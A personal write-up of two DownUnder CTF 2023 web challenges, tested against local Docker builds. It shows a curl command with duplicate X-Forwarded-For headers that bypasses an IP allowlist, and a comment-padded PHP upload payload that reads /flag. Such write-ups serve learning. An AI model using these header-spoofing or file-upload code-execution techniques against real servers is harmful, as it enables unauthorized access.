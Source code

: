 # DownUnder CTF 2023

i was part of the team "The Great Emu War II" in this competition. shoutouts to my fellow team mates, it was fun :)

official github containing the source code of the challenges:

https://github.com/DownUnderCTF/Challenges_2023_Public

for all the following challenges it was extremely helpful to build the docker images with the source code provided by the organizers. that way one could easily play around and test locally before moving onto the real challenge servers. 

## actually-proxed

my attention was first drawn to the server where the custom proxy apparently proxies to, located in the file `cmd/proxy/secret_server/main.go`:

```go
package main

import (
	"flag"
	"fmt"
	"log"
	"net/http"
	"os"
	"strings"
)

var (
	port = flag.Int("port", 8081, "port to listen on")
)

func main() {

	flag.Parse()

	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		xff := r.Header.Values("X-Forwarded-For")

		ip := strings.Split(r.RemoteAddr, ":")[0]

		if xff != nil {
			ips := strings.Split(xff[len(xff)-1], ", ")
			ip = ips[len(ips)-1]
			ip = strings.TrimSpace(ip)
		}

		// 1337 hax0rz 0nly!
		if ip != "31.33.33.7" {
			message := fmt.Sprintf("untrusted IP: %s", ip)
			http.Error(w, message, http.StatusForbidden)
			return
		} else {
			w.Write([]byte(os.Getenv("FLAG")))
		}
	})

	log.Printf("Listening on port %d", *port)
	log.Fatal(http.ListenAndServe(fmt.Sprintf(":%d", *port), nil))
}
```

it seems that we can get the flag, when the string var `ip` has the value `"31.33.33.7"`, which will never happen under regular circumstances.
`ip` is either finally set in line `ip := strings.Split(r.RemoteAddr, ":")[0]` as the left part of a string containing ip address and port in the format of `IP-ADRESS:PORT` of the remote host (us), left of the `":"`, or set if the http request header value of `"X-Forwarded-For"` is not null. if that is the case, it is always the last part of an array which results in splitting of a string at the `", "` character. consider the following example: the value of `xff` is `"127.0.0.1, 31.33.33.7, 13.37.13.37"`; this would result in the array `["127.0.0.1","31.33.33.7","13.37.13.37"]` for variable `ips`, and to the value `"13.37.13.37"` for `ip`, since `len(ips)-1 = 2` which results in picking the third value from the array!

ok, now i moved onto the source code of the proxy server, located in the file `cmd/proxy/main.go`, where the following loop looked interesting:

```go
for i, v := range headers {
	if strings.ToLower(v[0]) == "x-forwarded-for" {
		headers[i][1] = fmt.Sprintf("%s, %s", v[1], clientIP)
		break
	}
}
```

this loop is stopped as soon as the first http header with the name `"x-forwarded-for"` is found. the value of `clientIP` (the value of our remote ip) is then added, resulting in the value of the header and our ip, separated by a `,`, for example: `127.0.0.1, <OUR-IP>`. that means we can never get the flag, right?

the `break` statement means, that we hypothetically can add more request headers with the name `"x-forwarded-for"`, since the rest of the headers are just added to the request sent to the proxy. the capitalization of any character in the name `"x-forwarded-for"` does not matter, since all letters are converted to lower case anyway.
because of the following loop, the last one of the headers with the same name will always be the last added to the string array:
```go
for _, v := range headers {
		value := headerMap[v[0]]

		if value != nil {
			value = append(value, v[1])
		} else {
			value = []string{v[1]}
		}

		headerMap[v[0]] = value
}
```

you can log it for yourself if you add the following after this loop to the source code:
```go
log.Printf("headerMap has value: %s", headerMap)
```

let's try it: 

add `ENV FLAG=THIS_IS_THE_FLAG` for our tests to the Dockerfile (since this environment variable is not set otherwise in the source and only exists on the challenge docker instance), then run `docker build -t proxy .` where the Dockerfile resides. now run this wonderfull app using e.g. `docker run --rm --name proxy -p 127.0.0.1:8080:8080 -it proxy`

now, we can e.g. use curl to send these requests with two request headers with the same name:

`curl -vvv --header 'x-forwarded-for:127.0.0.1' --header 'x-forwarded-for:31.33.33.7' localhost:8080`

BOOM, you got it:

```
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.68.0
> Accept: */*
> x-forwarded-for:127.0.0.1
> x-forwarded-for:31.33.33.7
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Length: 16
< Content-Type: text/plain; charset=utf-8
< Date: Mon, 04 Sep 2023 16:59:22 GMT
<
* Connection #0 to host localhost left intact
THIS_IS_THE_FLAG
```

the logs of the headerMap (if you added it to the source):
```
headerMap has value: map[Accept:[*/*] Host:[localhost:8080] User-Agent:[curl/7.68.0] x-forwarded-for:[127.0.0.1, 172.17.0.1 31.33.33.7]]
```

since `127.0.0.1, 172.17.0.1` is the first element and `31.33.33.7` the last element of the string array which arrives at the secret server, we matched the wanted ip.

## xxd-server

looking at the source code, the file `.htacess` shows us, that php code (inside files with a `.php` extension) should be executed by the apache web server.
to be able to test any solution, we have to add a file called `flag` with some content to the dir where the Dockerfile resides, e.g. with: 

`echo flag > flag`

now build and run the image: 

`docker build -t xxd . && docker run --name xxd --rm -p 127.0.0.1:8080:80 xxd`

you are able to visit the app's frontend now by browsing to http://localhost:8080 where you are greeted by a file upload utility:

![xxd1.png](xxd/images/xxd1.png)

when you select and upload a php file with the following content: 
```php
<?php echo test; ?>
```
and click on "Click here to view"

the code is unfortunately not properly executed, and this error message is displayed: 

![xxd2.png](xxd/images/xxd2.png)

time to take the same file, but with another file ending, e.g. `.txt`:

![xxd3.png](xxd/images/xxd3.png)

if we look at the `xxd()` function in `index.php` and also compare the result output, we see, that the "xxd" utility splits a provided string into 16 characters each line and does its hex conversion on the lefthand side of the output.

after messing around for some time I had the idea to try to use multiline comments (opening with `/*` and closing with `*\`) in php to span the reading of the flag file into multiple lines.

the shortest php snippet I came up with to read a file and print its content was (probably there are better variants?):

```php
<?php $a=file('/flag');print_r($a); ?>
```

ok, this php snippet is longer than 16 characters, so we have to insert the start and end of the comment at the right spot, taking into account that the comment has to begin at the end of each line:

```php
<?php $a=file(/**/'/flag');/*****/print_r(/******/$a); ?>
```

to test our theory, we first put this content into a `.txt` file and upload that to see if we put the comment begin and end at the right spot, since testing with a `.php` file is cumbersome since it tries to execute it:

![xxd4.png](xxd/images/xxd4.png)

as you can see in the image above, in each line the comment starts at the end of the line and closes at the beginning of a line. that way, the hex representations are enclosed in the comment on each line and does not hinder the php code to properly execute.

upload the same with a `.php` extension and get the flag :)

![xxd5.png](xxd/images/xxd5.png)

## grades_grades_grades

**still to document**
